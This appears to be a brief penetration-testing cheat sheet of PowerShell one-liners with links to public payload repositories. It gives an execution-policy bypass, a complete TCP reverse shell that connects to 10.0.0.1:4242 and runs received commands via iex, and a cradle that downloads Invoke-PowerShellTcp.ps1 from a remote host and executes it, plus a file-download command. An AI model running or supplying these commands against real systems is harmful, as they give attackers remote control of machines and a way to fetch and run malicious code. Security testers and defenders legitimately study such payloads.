 ```
powershell -ExecutionPolicy Bypass -File script.ps1
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```
powershell iex(New-Object Net.WebClient).DownloadString('http://ip/Invoke-PowerShellTcp.ps1');
```

```
powershell -c "(New-Object Net.WebClient).DownloadFile('http://ip/filename.ext','filename.ext')"
```


